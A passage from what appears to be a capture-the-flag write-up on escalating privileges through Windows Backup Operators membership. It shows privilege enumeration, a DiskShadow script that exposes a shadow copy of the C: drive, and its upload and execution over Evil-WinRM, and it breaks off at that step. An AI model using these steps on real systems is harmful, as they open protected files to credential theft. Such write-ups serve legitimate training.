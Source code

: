 hm so how do we privesc here? well the simplest thought here to start with, would be that this user is member of `BACKUP OPERATORS` , what do we know about this group?

Members of the **Backup Operators** group can:

1. **Back up any file or folder**, even if they don’t have read access to it.
2. **Restore any file or folder**, even if they don’t have write access.
3. Log on **locally** (by default, on workstations and servers).
4. **Bypass NTFS permissions** using specific APIs or tools (like `ntbackup`, `robocopy`, `wbadmin`, or `sebackupprivilege`/`serestoreprivilege`).

Nice, this group seems to have potential for privesc, lets see our user’s privileges:

```bash
whoami /priv
```

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### Abusing `BACKUP OPERATORS` privileges

So searching for resources about abusing `BACKUP OPERATORS` i found this:
[https://www.hackingarticles.in/addself-active-directory-abuse/](https://www.hackingarticles.in/addself-active-directory-abuse/)

And according to it, i run the following commands as described there:
```bash
# on your machine:
$ cat raj.dsh 
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:

$ unix2dos raj.dsh
unix2dos: converting file raj.dsh to DOS format...
```

```bash
*Evil-WinRM* PS C:\\> mkdir Temp
    Directory: C:\\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/5/2025   9:27 PM                Temp
*Evil-WinRM* PS C:\\> cd Temp
*Evil-WinRM* PS C:\\Temp> upload raj.dsh
                                        
Info: Uploading /home/ch3ckm8/raj.dsh to C:\\Temp\\raj.dsh
                                        
Data: 112 bytes of 112 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\\Temp> diskshadow /s raj.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
```